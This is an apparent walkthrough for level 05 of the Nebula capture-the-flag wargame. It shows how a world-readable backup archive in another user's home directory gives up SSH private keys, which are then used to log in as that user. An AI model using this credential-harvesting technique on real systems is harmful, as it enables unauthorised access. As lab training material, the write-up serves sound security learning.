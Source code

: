 # About
Check the flag05 home directory. You are looking for weak directory permissions

To do this level, log in as the level05 account with the password level05. Files for this level can be found in /home/flag05.

# Exploitation
```bash
level05@nebula:/home/flag05$ ls -al
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     180 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
```

Let's look at `.backup` folder:
```bash
level05@nebula:/home/flag05/.backup$ ls -l
total 2
-rw-rw-r-- 1 flag05 flag05 1826 2011-11-20 20:13 backup-19072011.tgz
```

I unzipped that file in my current folder(/home/level05):
```bash
level05@nebula:~$ tar -xzvf ./backup-19072011.tgz 
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:~$
```

There is ssh keys, so let's log into flag05:
```bash
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```
